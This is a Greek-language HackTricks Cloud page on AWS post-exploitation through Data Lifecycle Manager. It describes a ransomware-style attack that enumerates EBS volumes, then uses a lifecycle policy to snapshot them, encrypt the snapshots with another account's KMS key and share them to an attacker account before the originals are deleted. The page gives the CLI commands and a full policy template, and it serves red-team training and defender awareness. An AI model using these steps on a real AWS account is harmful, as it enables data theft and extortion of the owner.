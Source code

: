 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Μια επίθεση ransomware μπορεί να εκτελεστεί κρυπτογραφώντας όσο το δυνατόν περισσότερους EBS όγκους και στη συνέχεια διαγράφοντας τις τρέχουσες EC2 περιπτώσεις, EBS όγκους και στιγμιότυπα. Για να αυτοματοποιηθεί αυτή η κακόβουλη δραστηριότητα, μπορεί κανείς να χρησιμοποιήσει το Amazon DLM, κρυπτογραφώντας τα στιγμιότυπα με ένα KMS κλειδί από άλλο AWS λογαριασμό και μεταφέροντας τα κρυπτογραφημένα στιγμιότυπα σε διαφορετικό λογαριασμό. Εναλλακτικά, μπορεί να μεταφέρει στιγμιότυπα χωρίς κρυπτογράφηση σε έναν λογαριασμό που διαχειρίζεται και στη συνέχεια να τα κρυπτογραφήσει εκεί. Αν και δεν είναι απλό να κρυπτογραφήσει κανείς υπάρχοντες EBS όγκους ή στιγμιότυπα απευθείας, είναι δυνατόν να το κάνει δημιουργώντας έναν νέο όγκο ή στιγμιότυπο.

Αρχικά, θα χρησιμοποιήσει μια εντολή για να συγκεντρώσει πληροφορίες σχετικά με τους όγκους, όπως το ID της περιπτώσης, το ID του όγκου, την κατάσταση κρυπτογράφησης, την κατάσταση προσάρτησης και τον τύπο του όγκου.

`aws ec2 describe-volumes`

Δεύτερον, θα δημιουργήσει την πολιτική κύκλου ζωής. Αυτή η εντολή χρησιμοποιεί το DLM API για να ρυθμίσει μια πολιτική κύκλου ζωής που αυτόματα λαμβάνει καθημερινά στιγμιότυπα των καθορισμένων όγκων σε μια καθορισμένη ώρα. Επίσης, εφαρμόζει συγκεκριμένες ετικέτες στα στιγμιότυπα και αντιγράφει ετικέτες από τους όγκους στα στιγμιότυπα. Το αρχείο policyDetails.json περιλαμβάνει τις λεπτομέρειες της πολιτικής κύκλου ζωής, όπως οι στοχευμένες ετικέτες, το πρόγραμμα, το ARN του προαιρετικού KMS κλειδιού για κρυπτογράφηση και τον στοχευόμενο λογαριασμό για κοινή χρήση στιγμιότυπων, ο οποίος θα καταγραφεί στα αρχεία CloudTrail του θύματος.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Ένα πρότυπο για το έγγραφο πολιτικής μπορεί να δει εδώ:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
